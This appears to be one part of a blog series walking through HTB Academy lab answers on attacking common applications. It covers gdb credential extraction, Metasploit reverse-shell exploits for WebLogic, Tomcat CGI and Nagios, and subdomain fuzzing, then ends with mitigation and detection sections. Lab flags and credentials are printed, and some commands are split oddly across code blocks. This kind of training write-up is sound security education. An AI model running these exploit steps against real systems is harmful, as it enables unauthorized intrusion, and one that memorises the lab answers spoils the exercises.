### Attacking Applications Connecting to Services

> **Lab Question (Page 103)**: What credentials were found for the local database instance while debugging the octopus_checker binary?
>
> **Flag / Answer**: `SA:N0tS3cr3t!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

connect to the target machine via ssh, we are provided with the
credentials htb-student: HTB_@cademy_stdnt! with the command:
```bash
ssh htb-student@<target-IP>
```
when connected – running ls:

Will reveal a file called 'octopus_checker' and a directory called 'peda' – python
```bash
exploit development assistance for 'gdb' – a debugging tool for mostly C and
```
C++ based executables.
Then we run 'file' command on the 'octopus_checker' – we can observe it is
and ELF based executable.
Usually we would analyze the executable with static tools first (like strings and
decompiler and such), but as our challenge involved gdb – we would directly
```bash
run gdb on 'octopus_checker':
gdb ./octopus_checker
```

on gdb we would run those 2 commands:
```bash
set disassembly-flavor intel
```
disas main
the first command would display the assemble in more appropriate manner to
intel x86-64 architecture (which we know is the architecture from the output of
the 'file' command). The second command will display the disassemble (the
assembly form) of the main function.
Running 'disas main' – we see an interesting instruction between all the
disassembled main:


*_Figure 103.1 — Lab execution and output verification (Page 103)_*


*_Figure 103.2 — Lab execution and output verification (Page 103)_*


### Lets add break point at its address

That would be SQLDriverConnect function call, and its address is 0x11b0.
For the full address we can take from 'disas SQLDriverConnect':

Lets add break point at its address:
break *0x00000000000011b0


And run:

Immediately after the program starts running – it stops at the breakpoint we
```bash
set – the 'SQLDriverConnect' function address, where it presents the relevant
```
data, including the connection string which contains the server, port, and
credentials (UID and Password) – SA: N0tS3cr3t!


*_Figure 104.1 — Lab execution and output verification (Page 104)_*


*_Figure 104.2 — Lab execution and output verification (Page 104)_*


*_Figure 104.3 — Lab execution and output verification (Page 104)_*


### Other Notable Applications

> **Lab Question (Page 105)**: Enumerate the target host and identify the running application. What application is running?
>
> **Flag / Answer**: `WebLogic`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
run nmap scan on the target machine:
sudo nmap -sV 10.129.201.102 -p 1-10000 --open
```
*-sV for more information*

WebLogic is running on port 7001.

Question: Enumerate the application for vulnerabilities. Gain remote code
execution and submit the contents of the flag.txt file on the administrator
desktop.
Answer: w3b_l0gic_RCE!
Method: from the nmap scan we can observe that the application version is
12.2.1.3, T3 enabled and its also running on windows machine.
Before I describe the successful method, I will talk about some approaches that
failed: for start - using 'EyeWitness' failed.
I also tried CVE-2023-21839 vulnerability with exploits such as this and others
to avail.

Also this CVE-2020-14882 exploit didn't work (even though it uses the correct
vulnerability, maybe I just didn't successes to utilize it correctly to get
RCE/shell.. also this didn't work for me. These exploits are using of injecting
commands via the URL, so I also tried that manually – didn't work either.


*_Figure 105.1 — Lab execution and output verification (Page 105)_*


### among others – we have the '/console' path

The succussing approach is using this Metasploit exploit of CVE-2020-14882 to
get reverse shell.
Let's cover the method further, first – we run 'gobuster' on the target machine
on port 7001
```bash
gobuster dir -u http://<target-IP>:7001 -w
```
/usr/share/wordlists/dirb/small.txt

among others – we have the '/console' path:

Lets enter it with the browser:

It directs us to '/login/LoginForm.jsp'. Scrolling down the page to the end:

We see the version is 12.2.1.3.0 (a bit different than the nmap recognized
12.2.1.3)


*_Figure 106.1 — Lab execution and output verification (Page 106)_*


*_Figure 106.2 — Lab execution and output verification (Page 106)_*


*_Figure 106.3 — Lab execution and output verification (Page 106)_*


### Metasploit (#the information between the # # are notes #)

now that we know the exact version, we know the vulnerability to look for.
That would be CVE-2020-14882 vulnerability, which exploits misconfiguration
on the path (allows path traversal backward and with it run commands).
We will use this Metasploit exploit of the vulnerability.
This exploit does not comes built in on the provided pwnbox machine, we need
to install it.
First – create a file called 'exploit.rb', and paste the Metasploit exploit content
into it (or use echo if it works, I prefer to use 'nano' editor). When its done, the
next objective is to install the module on Metasploit.
The sequence of commands to install the Metasploit module on the machine's
Metasploit (#the information between the # # are notes #):
```bash
sudo mkdir -p /usr/share/metasploit-
```
framework/modules/exploits/multi/http/
# -p flag is to create the directory if it doesn't exists,
it will also create parents directory if required. #

```bash
sudo mv exploit.rb /usr/share/metasploit-
```
framework/modules/exploits/multi/http/
weblogic_admin_handle_rce.rb
# assuming the exploit.rb is the present working directory #

```bash
msfconsole # run Metasploit #
```

reload_all # reload modules, when on metasploit #

now for Metasploit configurations:
```bash
use weblogic_admin_handle_rce
set LHOST <attacker-IP>
set RHOSTS <target-IP>
```
RPORT (target port) of course would be 7001, LPORT is 8443 on default (I
recommend to keep it, I tried to set it to 4545 but then it didn't work (I don't
know why)), payload default is 'windows/x64/meterpreter/reverse_https' –
keep it.

Lets run 'show options' to confirm everything is in order:


### Now we are good to go, run 'exploit'

#### Technical Methodology & Exploit Execution:

```bash
cat C:/Users/Administrator/Desktop/flag.txt
```
*note – use forward slash here, backward didn't work for me.


*_Figure 108.1 — Lab execution and output verification (Page 108)_*


*_Figure 108.2 — Lab execution and output verification (Page 108)_*


*_Figure 108.3 — Lab execution and output verification (Page 108)_*


*_Figure 108.4 — Lab execution and output verification (Page 108)_*


*_Figure 108.5 — Lab execution and output verification (Page 108)_*


### Capstone: Skills Assessment

> **Lab Question (Page 109)**: What vulnerable application is running?
>
> **Flag / Answer**: `Tomcat`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run nmap scan:
```bash
sudo nmap -sV <target-IP> -p 1-10000
```


In here we can see Tomcar tunning on port 8080, on Windows machine.

Question: What port is this application running on?
Answer: 8080
Method: see above.


*_Figure 109.1 — Lab execution and output verification (Page 109)_*


### section - this CVE-2019-0232 vulnerability

> **Lab Question (Page 110)**: What version of the application is in use?
>
> **Flag / Answer**: `9.0.0.M1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we enter in the URL:
http://<target-IP>:8080/


Question: Exploit the application to obtain a shell and submit the contents of
the flag.txt file on the Administrator desktop.
Answer: f55763d31a8f63ec935abd07aee5d3d0
Method: we will base our attack in the same base of 'Attacking Tomcat CGI'
section - this CVE-2019-0232 vulnerability:
To get the cmd command-injection URL – we will use the same ffuf
enumeration as last time:
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u
```
http://<target-IP>:8080/cgi/FUZZ.bat | grep 200


Instead of 'welcome' last time – now the path to the 'bat' executable is cmd.
Lets test it:


*_Figure 110.1 — Lab execution and output verification (Page 110)_*


*_Figure 110.2 — Lab execution and output verification (Page 110)_*


*_Figure 110.3 — Lab execution and output verification (Page 110)_*


### Like last time, 'pwd' didn't work, and neither does 'set'

There is 'bat' access.
Like last time, 'pwd' didn't work, and neither does 'set':

We need to find an alternative method to get the flag.
In this part we diverge from the 'attacking Tomcat CGI' section – and for the
coming part of the solution this video explains very well – we will use
metasploit – for that we run 'msfconsole' to activate metasploit.
When its running – we will run the sequence of commands:
```bash
use windows/http/tomcat_cgi_cmdlineargs
set RHOSTS <target-IP>
set LHOST <attacker-IP>
set TARGETURI /cgi/cmd.bat
set ForceExploit true
```
*the RPORT is 8080 by default, of course if its different in your target server,
change it. *
**the cmd.bat is based on my 'ffuf' results, if required – also change the cmd
to your 'ffuf' result. **
*** the default payload is 'windows/meterpreter/reverse_tcp', keep it ***


*_Figure 111.1 — Lab execution and output verification (Page 111)_*


*_Figure 111.2 — Lab execution and output verification (Page 111)_*


### Lets confirm everything is in order with 'show options'

Lets confirm everything is in order with 'show options':

And when ready – enter 'run':


After some progress updating, we get shell!
From here all have to do is to get the flag from the Administrator's Desktop:
```bash
cat C:/Users/Administrator/Desktop/flag.txt
```


*_Figure 112.1 — Lab execution and output verification (Page 112)_*


*_Figure 112.2 — Lab execution and output verification (Page 112)_*


*_Figure 112.3 — Lab execution and output verification (Page 112)_*


*_Figure 112.4 — Lab execution and output verification (Page 112)_*


### Capstone: Skills Assessment

> **Lab Question (Page 113)**: What is the URL of the WordPress instance?
>
> **Flag / Answer**: `http://blog.inlanefreight.local`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will do the 'initial configuration' on vhost
'gitlab.inlanefreight.local'.
Now, to find the WordPress instance we need to find a subdomain.
For that we will use another feature of fuff.
First we need a word list, there are several options to obtain that, like in here
or here or in the path '/opt/useful/SecLists/Discovery/DNS/subdomains-
top1million-5000.txt'.
In this report we will work with the third option.
We will first run the command:
```bash
ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-
```
top1million-5000.txt -u http://<target-IP> -H "Host:
FUZZ.inlanefreight.local" -mc 200 -fs 0
to get all subdomains that return status code 200 (-mc 200), and their size is
not 0 (-fs, filter size 0):

We are immediately flooded with results, those are fake results, probably the
server is configuring to return status code 200 for any of them.
However, we can observe that they all have the same size, words, and lines.
All we have to do is to add the flag '-fl' (filter lines) and put the value 923:
```bash
ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-
```
top1million-5000.txt -u http://<target-IP> -H "Host:
FUZZ.inlanefreight.local" -mc 200 -fl 923 -fs 0


*_Figure 113.1 — Lab execution and output verification (Page 113)_*


### encounter 'explore public projects', and we select it

> **Lab Question (Page 114)**: What is the name of the public GitLab project?
>
> **Flag / Answer**: `Virtualhost`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will register an account in Gitlab just as we did in 'Discovery &
Enumeration' section (the method for that are fully detailed there, they will
NOT be repeated here).
Then when signed in to an account, we scroll down on main page until we
encounter 'explore public projects', and we select it:

When on explore page – we select all and the list of the public projects are
revealed to us:


*_Figure 114.1 — Lab execution and output verification (Page 114)_*


*_Figure 114.2 — Lab execution and output verification (Page 114)_*


*_Figure 114.3 — Lab execution and output verification (Page 114)_*


### the readme

> **Lab Question (Page 115)**: What is the FQDN of the third vhost?
>
> **Flag / Answer**: `monitoring.inlanefreight.local`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the question above we found the 'VirtualHost' admin project.
And 2 questions above we learned that the second vhost is 'blog'.
Lets look for the third domain of the server – we open the project and go to
the readme:

Before we proceed, we learn the project is Virtualhost manager, assigning a
domain (or more precisely, subdomain) to any vhost.
Now, scrolling down on readme – we see this:

The administrator used 'monitoring' subdomain as an example to create vhost.
It looks good enough BUT – we need to confirm it.
We add the domain we found on the IP in /etc/hosts:


*_Figure 115.1 — Lab execution and output verification (Page 115)_*


*_Figure 115.2 — Lab execution and output verification (Page 115)_*


### and when inside the file we reconfigure

> **Lab Question (Page 116)**: What application is running on this third vhost? (One word)
>
> **Flag / Answer**: `Nagios`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

(from above)


*_Figure 116.1 — Lab execution and output verification (Page 116)_*


*_Figure 116.2 — Lab execution and output verification (Page 116)_*


*_Figure 116.3 — Lab execution and output verification (Page 116)_*


### The INSTALL commit's name looks interesting

> **Lab Question (Page 117)**: What is the admin password to access this application?
>
> **Flag / Answer**: `oilaKglm7M09@CPL&^lC`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in GitLab project explorer, just below the 'Virtualhost' – there is
another project – 'Nagios Postgresql'

The INSTALL commit's name looks interesting:

And within the file we encounter the admin's credentials:

All we have to do is to check the credentials on Nagios:


Sucsess, the credentials are "nagiosadmin:oilaKglm7M09@CPL&^lC"


*_Figure 117.1 — Lab execution and output verification (Page 117)_*


*_Figure 117.2 — Lab execution and output verification (Page 117)_*


*_Figure 117.3 — Lab execution and output verification (Page 117)_*


*_Figure 117.4 — Lab execution and output verification (Page 117)_*


*_Figure 117.5 — Lab execution and output verification (Page 117)_*


### On metasploit (msfconsole to start it) – we enter

> **Lab Question (Page 118)**: Obtain reverse shell access on the target and submit the contents of the flag.txt file.
>
> **Flag / Answer**: `afe377683dce373ec2bf7eaf1e0107eb`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the Nagios help page, when logged in to the admin account:

We can observe the version in the bottom left corner – 5.7.5.
Now that we know the version, we can look for an exploit, we shall use
metasploit to select one.
On metasploit (msfconsole to start it) – we enter:
search nagios
And we encounter these results:

Option 2 is both RCE and fit to our 'Nagios' version, we select it with
```bash
use 2
```


*_Figure 118.1 — Lab execution and output verification (Page 118)_*


*_Figure 118.2 — Lab execution and output verification (Page 118)_*


### as usual

now, the CVE the exploit is using is CVE-2021-25297 (here is another link)
next we run
```bash
show options
```
as usual:


the username and ports are already set, we need to enter LHOST, RHOSTS and
password (which was obtained on last question):
```bash
set RHOSTS <target-IP>
set LHOST <attacker-IP>
set PASSWORD oilaKglm7M09@CPL&^lC
```
and when ready, hit 'run':


*_Figure 119.1 — Lab execution and output verification (Page 119)_*


*_Figure 119.2 — Lab execution and output verification (Page 119)_*


*_Figure 119.3 — Lab execution and output verification (Page 119)_*


### wide search, with the command

#### Technical Methodology & Exploit Execution:

```bash
find / -path /proc -prune -o -type f -name *flag*.txt
```
2>/dev/null
*apparently the flag is not merely 'flag.txt' but <prefix>_flag.txt:

Once we found the path, we get the content with 'cat' command:
```bash
cat /usr/local/nagiosxi/html/admin/<prefix>_flag.txt
```


*_Figure 120.1 — Lab execution and output verification (Page 120)_*


*_Figure 120.2 — Lab execution and output verification (Page 120)_*


### Capstone: Skills Assessment

> **Lab Question (Page 121)**: What is the hardcoded password for the database connection in the MultimasterAPI.dll file?
>
> **Flag / Answer**: `D3veL0pM3nT!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Method 1: we will login to the windows machine with this rdp
command:
```bash
xfreerdp /u:Administrator /p:'xcyj8izxNVzhf4z' /v:<Target
```
IP> /dynamic-resolution
now that the windows machine is open – we need to find the DLL first.
Opening the file explorer:

We observe a web.config – and its location in recent files.
Looks interesting – lets open the folder:


*_Figure 121.1 — Lab execution and output verification (Page 121)_*


*_Figure 121.2 — Lab execution and output verification (Page 121)_*


### Right click → open with → select notepad

Now we are at the target folder, lets search the 'MultimasterAPI.dll';

Right click → open with → select notepad:

There are a lot of binary encoded text, unreadable in ascii – but as the
password is mentioned as hard coded – I do expect to observe it as plain-text
string.
Scrolling down we do see strings section:


*_Figure 122.1 — Lab execution and output verification (Page 122)_*


*_Figure 122.2 — Lab execution and output verification (Page 122)_*


*_Figure 122.3 — Lab execution and output verification (Page 122)_*


*_Figure 122.4 — Lab execution and output verification (Page 122)_*


### We open the dll file in dnSpy

Some of the strings are directly displayed, and some of them are displayed with
a space between every character.
Searching "password" directly yields no result, but searching: 'p a s s w o r d':

Will immediately reveal the result.
All we have to do is to take the password value and remove the strings.
Method 2: we will use dnSpy .NET reverse engineering tool (C→tools):
We open the dll file in dnSpy:

Then we go to MultimasterAPI.all→
Multimaster.Controllers→ColleagueConrtroller, and we look for the connection
string.


*_Figure 123.1 — Lab execution and output verification (Page 123)_*


*_Figure 123.2 — Lab execution and output verification (Page 123)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1212, T1505.003` |
| **Common Weakness Enumerations** | `CWE-20, CWE-284, CWE-306` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Targeting vulnerable software packages (Tomcat, Jenkins, Splunk, Drupal) |
| [`T1212`](https://attack.mitre.org/techniques/T1212/) | **Exploitation for Credential Access** | `Credential Access` | Extracting plain-text configuration passwords and cryptographic keys |
| [`T1505.003`](https://attack.mitre.org/techniques/T1505/) | **Server Software Component: Web Shell** | `Persistence` | Deploying WAR files or plugins containing web shells |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-20`: Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)
- [`CWE-284`: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- [`CWE-306`: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Monitor application managers (e.g., Tomcat `/manager/html`, Jenkins `/script`) for external IP access and unauthorized deployments.
- Alert on unauthorized WAR or JAR package deployments via application container logs.
- Enforce strict role-based access control (RBAC) and mandatory multi-factor authentication (MFA) on enterprise administrative dashboards.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Attacking Common Applications](https://academy.hackthebox.com/module/113) — *Official Hack The Box curriculum track*
- [Exploit-DB Applications Archive](https://www.exploit-db.com/) — *Verified exploit database for common enterprise applications*
- [Apache Tomcat Security Advisories](https://tomcat.apache.org/security.html) — *Official vulnerabilities and patch releases*
- [Jenkins Security Bulletins](https://www.jenkins.io/security/advisories/) — *Advisories and remediation guidelines*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-10-attacking-common-services/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 10: Attacking Common Services (SMB, SQL, RDP, SSH)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 11 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-12-active-directory-enumeration-and-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 12: Active Directory Enumeration & Domain Attacks</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
